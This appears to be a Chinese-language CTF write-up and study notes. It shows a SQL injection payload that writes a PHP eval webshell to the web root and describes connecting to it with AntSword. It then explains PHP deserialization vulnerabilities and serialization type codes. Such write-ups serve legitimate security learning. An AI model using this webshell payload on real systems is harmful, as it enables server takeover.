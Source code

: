 ![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1732685280880-8e317f2b-a206-4f78-a681-4009a236c13d.png)

## sqlshell
这题需要通过sql语句写入webshell

```python
Alice' union select 1,'<?php @eval($_POST[1]);?>',3 INTO OUTFILE '/var/www/html/2.php' #
```

写入webshell后访问2.php查看是否写成功

![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1732631795350-0ea8b263-d0df-4968-8d7e-135786b20ddf.png)

再用中国蚁剑尝试连接

![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1732632222515-22ba2ede-0d38-4665-b2b4-9dd5b495ad37.png)

连接成功后添加数据寻找flag

![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1732632272854-e273a0b4-1fc8-43f6-a28a-de0b7664ef46.png)

# PHP反序列化知识笔记
参考文章[链接](https://blog.csdn.net/weixin_42628854/article/details/141569755?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522a7fbc8197d45505ee5fbe79c91a5b379%2522%252C%2522scm%2522%253A%252220140713.130102334.pc%255Fall.%2522%257D&request_id=a7fbc8197d45505ee5fbe79c91a5b379&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~first_rank_ecpm_v1~rank_v31_ecpm-14-141569755-null-null.142^v100^pc_search_result_base7&utm_term=php%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96&spm=1018.2226.3001.4187) [链接](https://blog.csdn.net/weixin_42628854/article/details/141569755?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522a7fbc8197d45505ee5fbe79c91a5b379%2522%252C%2522scm%2522%253A%252220140713.130102334.pc%255Fall.%2522%257D&request_id=a7fbc8197d45505ee5fbe79c91a5b379&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~first_rank_ecpm_v1~rank_v31_ecpm-14-141569755-null-null.142^v100^pc_search_result_base7&utm_term=php%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96&spm=1018.2226.3001.4187)

## <font style="color:#000000;">什么是PHP反序列化漏洞？</font>
在PHP中，unserialize() 函数用于将之前通过 serialize() 函数序列化的字符串还原成PHP的原始数据结构，如数组或对象。如果 unserialize() 处理的数据来自不可信的来源（例如用户输入），且没有适当的验证和清理，攻击者就能够控制此数据以尝试创建任何类型的对象，并调用其方法。

## <font style="color:#000000;">漏洞产生原因</font>
控制对象创建：攻击者可以控制序列化字符，强制应用程序创建特定的对象实例。



魔术方法触发：一些魔术方法如 __wakeup(), __destruct(), __toString(), 和 __call() 在对象的生命周期的特定时刻自动执行。如果攻击者可以控制这些对象的创建，他们可以触发这些方法以执行恶意代码。



利用现有的应用逻辑：在某些情况下，即使没有直接执行代码的能力，攻击者也可以通过改变应用状态或行为来利用应用逻辑。

## <font style="color:#000000;">php序列化的字母标识：</font>
```plain
a - 数组 (Array): 一种数据结构，可以存储多个相同类型的元素。
b - 布尔型 (Boolean): 一种数据类型，只有两个可能的值：true 或 false。
d - 双精度浮点数 (Double): 一种数据类型，用于存储双精度浮点数值。
i - 整型 (Integer): 一种数据类型，用于存储整数值。
o - 普通对象 (Common Object): 一个通用的对象类型，它可以是任何类的实例。
r - 引用 (Reference): 指向对象的引用，而不是对象本身。
s - 字符串 (String): 一种数据类型，用于存储文本数据。
C - 自定义对象 (Custom Object): 指由开发者定义的特定类的实例。
O - 类 (Class): 在面向对象编程中，类是一种蓝图或模板，用于创建对象。
N - 空 (Null): 在许多编程语言中，null 表示一个不指向任何对象的特殊值。
R - 指针引用 (Pointer Reference): 一个指针变量，其值为另一个变量的地址。
U - 统一码字符串 (Unicode String): 一种数据类型，用于存储包含各种字符编码的文本数据。
```